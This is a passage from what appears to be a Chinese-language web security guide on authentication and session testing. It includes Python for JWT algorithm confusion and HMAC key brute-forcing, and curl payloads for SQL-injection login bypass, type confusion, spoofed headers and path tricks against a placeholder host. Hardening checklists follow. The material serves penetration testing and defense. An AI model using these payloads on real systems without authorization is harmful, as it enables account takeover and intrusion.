    header_data = json.loads(base64.urlsafe_b64decode(header + '=='))

    # 改算法为HS256
    header_data['alg'] = 'HS256'
    new_header = base64.urlsafe_b64encode(
        json.dumps(header_data).encode()
    ).rstrip(b'=').decode()

    # 用公钥作为HMAC密钥签名
    signing_input = f"{new_header}.{payload}"
    # 注意：实际使用时需要加载真正的PEM公钥
    # signature = hmac.new(public_key, signing_input.encode(), hashlib.sha256).digest()
    # new_sig = base64.urlsafe_b64encode(signature).rstrip(b'=').decode()

    return f"{new_header}.{payload}.<new_signature>"

def test_key_brute_force(token: str, wordlist_path: str) -> str | None:
    """攻击3：弱密钥暴力破解"""
    header, payload, sig = token.split('.')
    header_data = json.loads(base64.urlsafe_b64decode(header + '=='))

    if header_data.get('alg') != 'HS256':
        return None  # 仅对HMAC算法有效

    signing_input = f"{header}.{payload}".encode()
    expected_sig = base64.urlsafe_b64decode(sig + '==')

    with open(wordlist_path, 'r') as f:
        for line in f:
            secret = line.strip().encode()
            computed = hmac.new(secret, signing_input, hashlib.sha256).digest()
            if computed == expected_sig:
                return secret.decode()

    return None
```

**JWT 测试检查清单**：

```text
□ 算法是否固定（不允许客户端指定算法）
□ none算法是否被拒绝
□ HS256/RS256混淆是否被防御
□ 密钥强度是否足够（HMAC密钥 ≥ 256位）
□ Token有效期是否合理（建议15-60分钟）
□ 是否支持Token撤销/黑名单
□ 敏感信息是否出现在Payload中（Payload仅Base64编码，非加密）
□ kid（Key ID）参数是否可注入（路径遍历、SQL注入）
□ jku/jwk参数是否可篡改（指向攻击者控制的密钥集）
```

### 14.16.8 会话劫持攻击与防御

会话劫持是攻击者获取合法用户的会话Token后冒充该用户的技术统称。

**14.16.8.1 劫持攻击向量**



**14.16.8.2 综合防御测试**

```python
# session_hijack_defense_test.py
import requests

class SessionSecurityTester:
    def __init__(self, base_url: str):
        self.base_url = base_url
        self.session = requests.Session()

    def login(self, username: str, password: str) -> bool:
        """执行登录并获取会话"""
        resp = self.session.post(f"{self.base_url}/login", data={
            "username": username,
            "password": password
        }, allow_redirects=False)
        return resp.status_code in (301, 302)

    def test_token_binding(self) -> dict:
        """测试会话Token是否与客户端绑定"""
        results = {}

        # 获取原始Token
        original_cookies = dict(self.session.cookies)

        # 测试1：从不同IP使用相同Token
        # （实际测试需要切换IP或使用代理）

        # 测试2：从不同User-Agent使用相同Token
        headers = {"User-Agent": "AttackerBrowser/1.0"}
        resp = self.session.get(
            f"{self.base_url}/dashboard",
            headers=headers
        )
        results['user_agent_binding'] = resp.status_code == 401

        # 测试3：Token是否在URL中传递
        resp = self.session.get(f"{self.base_url}/dashboard")
        if 'session=' in str(resp.url):
            results['token_in_url'] = True  # 不安全
        else:
            results['token_in_url'] = False

        return results

    def test_concurrent_sessions(self) -> dict:
        """测试并发会话控制"""
        # 用同一账户从两个不同会话登录
        session2 = requests.Session()
        resp = session2.post(f"{self.base_url}/login", data={
            "username": "testuser",
            "password": "testpass"
        })

        # 检查第一个会话是否仍然有效
        resp1 = self.session.get(f"{self.base_url}/dashboard")
        resp2 = session2.get(f"{self.base_url}/dashboard")

        return {
            'session1_active': resp1.status_code == 200,
            'session2_active': resp2.status_code == 200,
            'both_active': resp1.status_code == 200 and resp2.status_code == 200
        }

    def test_logout_invalidation(self) -> bool:
        """测试登出后Token是否立即失效"""
        # 获取当前Token
        token_before = dict(self.session.cookies)

        # 执行登出
        self.session.get(f"{self.base_url}/logout")

        # 用旧Token尝试访问受保护页面
        resp = requests.get(
            f"{self.base_url}/dashboard",
            cookies=token_before
        )

        return resp.status_code != 200  # 应该无法访问
```

### 14.16.9 认证绕过技术

认证绕过是指在不知道合法凭证的情况下获取认证状态的访问权限。

**14.16.9.1 常见绕过手法**

| 手法 | 原理 | 测试方法 |
|------|------|---------|
| SQL注入绕过 | `' OR 1=1--` 等Payload绕过认证查询 | 在用户名/密码字段注入SQL |
| 类型混淆 | 提交数组/对象代替字符串触发异常 | `username[]=admin` |
| 空字节注入 | `%00`截断字符串处理 | `username=admin%00` |
| 大小写绕过 | 利用不区分大小写的比较 | `Admin` vs `admin` |
| 路径遍历 | 访问受保护页面的替代路径 | `/admin/../dashboard` |
| HTTP方法切换 | 使用不同HTTP方法绕过限制 | PUT/DELETE/OPTIONS替代POST |
| 头部注入 | 伪造认证相关的HTTP头部 | `X-Original-URL: /admin` |
| 参数污染 | 重复提交同名参数 | `user=admin&user=guest` |

**14.16.9.2 认证绕过实战测试**

```bash
# SQL注入认证绕过
curl -d "username=admin'--&password=anything" https://target.com/login
curl -d "username=admin' OR '1'='1'--&password=x" https://target.com/login

# 类型混淆
curl -d "username[]=admin&password[]=anything" https://target.com/login
curl -d '{"username": ["admin", "guest"], "password": "test"}' \
  -H "Content-Type: application/json" \
  https://target.com/login

# HTTP头部认证绕过
curl -H "X-Forwarded-For: 127.0.0.1" https://target.com/admin
curl -H "X-Original-URL: /admin" https://target.com/
curl -H "X-Rewrite-URL: /admin" https://target.com/

# 路径遍历绕过
curl https://target.com/./admin
curl https://target.com/admin/
curl https://target.com/admin/.
curl https://target.com//admin
curl https://target.com/admin;/
curl https://target.com/admin%20
curl https://target.com/admin.php.bak
```

### 14.16.10 认证测试工具链

| 工具 | 用途 | 安装 |
|------|------|------|
| **Hydra** | 在线暴力破解（50+协议） | `apt install hydra` |
| **ffuf** | 高速模糊测试 | `go install github.com/ffuf/ffuf/v2@latest` |
| **Burp Suite** | 综合Web安全测试平台 | 官网下载 |
| **OWASP ZAP** | 开源Web安全扫描器 | `apt install zaproxy` |
| **jwt_tool** | JWT安全测试专用工具 | `git clone https://github.com/ticarpi/jwt_tool` |
| **jwt-cracker** | JWT弱密钥暴力破解 | `go install github.com/lc/jwt-cracker/v2@latest` |
| **Patator** | 高性能暴力破解框架 | `pip install patator` |
| **Medusa** | 并行暴力破解工具 | `apt install medusa` |
| **Wfuzz** | Web应用模糊测试 | `pip install wfuzz` |
| **Nuclei** | 模板化漏洞扫描 | `go install github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest` |

**Nuclei 认证相关模板**：

```bash
# 使用Nuclei扫描认证相关漏洞
nuclei -u https://target.com -t authentication/
nuclei -u https://target.com -t default-logins/
nuclei -u https://target.com -t exposures/tokens/

# 指定特定模板
nuclei -u https://target.com -t cves/2023/ -tags auth-bypass
```

### 14.16.11 认证与会话安全加固清单

以下是防御方应当实施的安全措施，同时也是测试方的完整检查清单：

**认证安全**：

```text
□ 使用强密码哈希算法（bcrypt/scrypt/Argon2，禁止MD5/SHA1）
□ 实施密码复杂度策略（最少8位，大小写+数字+特殊字符）
□ 限制登录尝试次数（5次失败后锁定15分钟或触发CAPTCHA）
□ 统一错误信息（"用户名或密码错误"，不区分哪个错误）
□ 实施多因素认证（至少对敏感操作强制MFA）
□ 密码重置Token使用CSPRNG生成，至少128位熵
□ 密码重置Token有效期 ≤ 15分钟，使用后立即失效
□ 记录所有认证事件（成功/失败/MFA/密码重置）
□ 实施账户锁定通知（锁定时发送邮件/短信通知用户）
□ 提供备用认证方式（恢复码、备用邮箱）
```

**会话安全**：

```text
□ 登录成功后重新生成会话ID
□ 会话ID使用CSPRNG生成，至少128位熵
□ Cookie设置 HttpOnly + Secure + SameSite=Strict
□ 设置合理的会话超时（空闲15-30分钟，绝对8-12小时）
□ 登出时服务端使会话Token立即失效
□ 实施并发会话控制
□ 会话Token仅通过Cookie或Authorization头传递，不放在URL中
□ 敏感操作（修改密码/邮箱）要求重新认证
□ 定期刷新会话Token
□ 跨域场景使用SameSite=None时必须配合Secure
```

### 14.16.12 常见误区与纠正

| 误区 | 正确认知 |
|------|---------|
| "有HTTPS就安全了" | HTTPS仅保护传输层，不防XSS窃取Cookie、CSRF、暴力破解等应用层攻击 |
| "验证码能防暴力破解" | 简单图形验证码可被OCR工具秒破，需使用reCAPTCHA v3等无感验证 |
| "JWT是安全的" | JWT只是编码格式，安全性取决于算法、密钥强度和实现正确性 |
| "会话超时设越长越好" | 超时过长增加劫持窗口，需根据应用敏感度平衡安全性和用户体验 |
| "多因素认证万无一失" | MFA存在多种绕过方式（SIM Swap、SS7、实现缺陷），不能替代其他安全措施 |
| "账户锁定=安全" | 锁定机制本身可被利用进行DoS攻击（批量锁定合法账户），需要配合IP限制和渐进式延迟 |
| "默认框架配置足够安全" | 许多框架默认配置不包含HttpOnly/Secure/SameSite等属性，必须显式配置 |
